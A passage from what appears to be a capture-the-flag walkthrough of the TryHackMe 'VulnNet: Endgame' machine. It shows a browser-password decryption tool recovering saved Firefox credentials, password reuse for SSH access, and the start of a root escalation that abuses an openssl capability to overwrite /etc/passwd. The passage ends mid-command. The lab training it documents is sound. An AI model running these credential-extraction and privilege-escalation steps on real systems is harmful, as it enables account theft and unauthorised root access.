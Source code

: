 ```bash
dking@dking ~/Downloads/.mozilla/firefox$ python3 /opt/firefox_decrypt.py                                      
Select the Mozilla profile you wish to decrypt
1 -> 9l8sg3lz.default
2 -> rt5aiw6s.default-esr
1
2023-11-14 09:46:29,477 - ERROR - Couldn't initialize NSS, maybe '/home/dking/.mozilla/firefox/9l8sg3lz.default' is not a valid profile?
dking@dking ~/Downloads/.mozilla/firefox$ python3 /opt/firefox_decrypt.py ./                             12 ↵  
Select the Mozilla profile you wish to decrypt
1 -> 2o9vd4oi.default
2 -> 2fjnrwth.default-release
2

Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: '8y7TKQDpucKBYhwsb'
dking@dking ~/Downloads/.mozilla/firefox$ 
```

We try thee password for System.

```bash
www-data@vulnnet-endgame:/tmp$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
system:x:1000:1000:system,,,:/home/system:/bin/bash
www-data@vulnnet-endgame:/tmp$ 
```

ssh to System

`system : 8y7TKQDpucKBYhwsb`&#x20;

And it worked.

### Priv  Esc to root

#### Getcapabilities

```bash
system@vulnnet-endgame:~$ getcap / -r 2>/dev/null 
/home/system/Utils/openssl =ep
```

We find out that a version of openssl in our home can be used to escalate to root. As reported from GTFObins, we can use it to write to files. We can use the following instruction to add a new user to the box that has the same privileges as root.

#### Adding user and password to /etc/passwd file

```
echo "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```